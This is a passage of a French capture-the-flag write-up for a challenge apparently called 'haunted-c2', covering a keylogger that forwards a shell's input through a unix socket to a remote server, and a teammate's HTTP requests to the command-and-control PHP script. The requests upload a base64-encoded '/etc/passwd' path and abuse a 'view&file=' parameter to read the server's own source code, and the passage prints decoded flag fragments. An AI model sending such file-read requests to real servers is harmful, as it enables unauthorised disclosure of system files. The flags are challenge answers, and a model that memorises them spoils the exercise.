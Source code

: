 Ce n'est peut-etre pas la copie exacte car je me suis quelque peu amuser avec!

Le 2e morceau de flag est en base64

`RmxhZyBQYXJ0IDI6IF9oM3IzX2hhaGFoYWhhfQ==`
`Flag Part 2: _h3r3_hahahaha}`

Je comprend parcontre que tout ce qui est ecris dans le unix socket `/tmp/systemcontrol614af1b65d944d989a457c21a39b4377.sock`
est envoyer a un serveur distant. Sa semble un key logger je vais donc voir dans /home/simon/.bashrc et je vois une redirection dans le fameux unix socket avec la 1ere portion du flag en base64 egalement.

# Flag 2: haunted-c2

Ceci a ouvert une tuile WEB. J'ai donc passer la main a @`aulyxs` mon co-equipier.

Voici les requetes qu'il a envoyer au serveur trouver dans `systemcontrol` du premier challenge

```h
POST
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=upload HTTP/1.1
Host: REDACTED
Content-Type: appplication/json
Content-Length: 62

{"data":"L2V0Yy9wYXNzd2Q=","id":"1","time":"1","hostname":"1"}
```

`L2V0Yy9wYXNzd2Q= est /etc/passwd`


```bash
echo NjE0YWYxYjY1ZDk0NGQ5ODlhNDU3YzIxYTM5YjQzNzcucGhw | base64 -d
614af1b65d944d989a457c21a39b4377.php
```

```h
GET
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=view&file=NjE0YWYxYjY1ZDk0NGQ5ODlhNDU3YzIxYTM5YjQzNzcucGhw HTTP/1.1
Host: REDACTED
```

Nous avons donc le code

![alt text](img/2.png)
